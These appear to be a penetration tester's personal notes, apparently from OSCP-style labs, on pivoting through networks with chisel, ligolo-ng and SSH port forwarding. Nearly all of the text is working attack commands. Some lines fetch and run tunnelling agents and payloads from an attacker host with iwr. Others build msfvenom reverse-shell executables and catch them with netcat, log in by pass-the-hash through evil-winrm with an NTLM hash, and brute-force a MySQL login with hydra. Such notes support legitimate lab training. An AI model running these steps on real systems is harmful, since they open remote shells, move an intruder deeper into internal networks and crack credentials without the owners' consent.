 
## Chisel
```bash

# Set up chisel (Possible to set up a chisel pfwd inside an ligolo tunnel)
# Kali
1. ./chisel server -p 443 --reverse
4. proxychains evil-winrm -i 10.10.174.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd

# Tagret
2. iwr 192.168.45.216:80/chisel.exe -outfile chisel.exe
3. .\chisel.exe client 192.168.45.216:443 R:socks

# Had MAJOR ISSUES with machine (OSCP B) Fwd localhost:8000 --> 8000
# Command 192.168.45.185:8008 R:socks (Did not work!)
# Instead specifying the IP and Port solved the issue
1. Kali> ./chisel server -p 9000 --reverse
4. sudo nmap -p 8000 -sS -sV -sC -Pn 127.0.0.1
# Specifing the IP and port did work
2. iwr 192.168.45.216:80/chisel.exe -outfile chisel.exe
3. Target> ./chisel client 192.168.45.210:9000 R:8000:127.0.0.1:8000

# Now we can scan the port
sudo nmap -p 8000 -sS -sV -sC -Pn 127.0.0.1

```

## Ligolo

```bash

# Set up the Ligolo tunnel network on Kali
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

# Start the proxy
./proxy -selfcert -laddr 0.0.0.0:443 

# Transfer the agent to the target and connect to the proxy
iwr 192.168.45.180:8000/agent.exe -outfile agent.exe
.\agent.exe -connect 192.168.49.124:443 -ignore-cert

# Start the connection in ligolo
session
ifconfig
start

# Check that the interface is up
ip a show ligolo

# Add IP to routing table on Kali
sudo ip route add 10.10.174.0/24 dev ligolo

```

## Ligolo: Reverse Shells
- Let’s say that through newly obtained access to the internal network we’ve compromised a Windows host sitting at 172.16.5.35 and we want to catch reverse shell from that host. Here’s how that would go.

```bash

# Creates a listener on the machine where we're running the agent at port 1234
# and redirects the traffic to port 4444 on our machine.
ligolo>> listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444

# Generate a revshell for ms01
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.1.201 lport=1234 -f exe > intrevshell.exe

# Set up nc listener on Kali
sudo rlwrap nc -nvlp 4444

# Transfer the file to the target (ms02) (psexec in this case)
lput exploits/intrevshell.exe

# Or use another listener to transfer files with ligolo
# Listener on the compromised web server at port 1235 forwarding traffic 
# to port 80
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:80
iwr 10.10.1.201:1235/tools/intrevshell.exe -outfile intrevshell.exe

# Run the revshell
.\intrevshell.exe

```

## SSH port forward

```bash

# Example where I used ssh port forward to get access to localhost web server (Relia)
ssh -L 8001:localhost:8000 -N -f -l anita -p 2222 -i id_rsa 192.168.244.246

# Visit the site at 127.0.0.1:8001 in the browser

```

## Example case: Double pivot with ligolo & chisel

- **Case where we have a SQL server on MS02 that we want to reach from Kali**
	- First: We need to open a tunnel between MS01 internal interface and Kali
	- Second: We need to set up listeners that re-directs traffic from MS02 to Kali via MS01:
		- MS02 --> MS01 --> Kali
	- Third: We need to do a port forward that re-directs the mysql server that is on localhost
		- When we try to connect via MS02 IP (ligolo) we get:
			- Error: MS02 is not allow to connect to he mysql server
		- Therefor we use chisel to connect to localhost
- Source: https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5

```bash

# Assumes we have set up ligolo on ms01

# We got initial access throug psexec
# Stabalize the shell (revshell through ligolo ms02 --> ms01 --> Kali)

# Add listener to reverse shell & to kali web server & to ligolo server
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:80
listener_add --addr 0.0.0.0:443 --to 0.0.0.0:443

# Generate a revshell for ms02
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.1.201 lport=1234 -f exe > intrevshell.exe
# Transfer and run the revshell
iwr 10.10.1.201:1235/exploits/intrevshell.exe -outfile intrevshell.exe
nc -nvlp 4444
.\intrevshell.exe

# Download the agent.exe on ms02
iwr 10.10.1.201:1235/tools/agent.exe -outfile agent.exe

# Set up a new tunnel
.\agent.exe -connect 10.10.1.201:443 -ignore-cert
# Stop the session
stop
# Start new sesssion
session
	Specify a session : 4 - #4 - NT AUTHORITY\SYSTEM@MS02 - 127.0.0.1:59354
start

# Add listener to kali web server
listener_add --addr 0.0.0.0:1236 --to 0.0.0.0:80
# Transfer chisel
iwr 127.0.0.1:1236/tools/chisel.exe -outfile chisel.exe

# Add listener to chisel
listener_add --addr 0.0.0.0:1237 --to 0.0.0.0:9000

# Start chisel
./chisel server -p 9000 --reverse

# Start port forward mysql.ms02 --> mysql.kali'
./chisel client 127.0.0.1:1237 R:3306:127.0.0.1:3306

# Try to connect to the mysql from kali
mysql -h 127.0.0.1 -u "root" --password=""
	ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO)

# Run Hydra to find creds
hydra -l root -P /usr/share/wordlists/rockyou.txt 127.0.0.1 mysql


```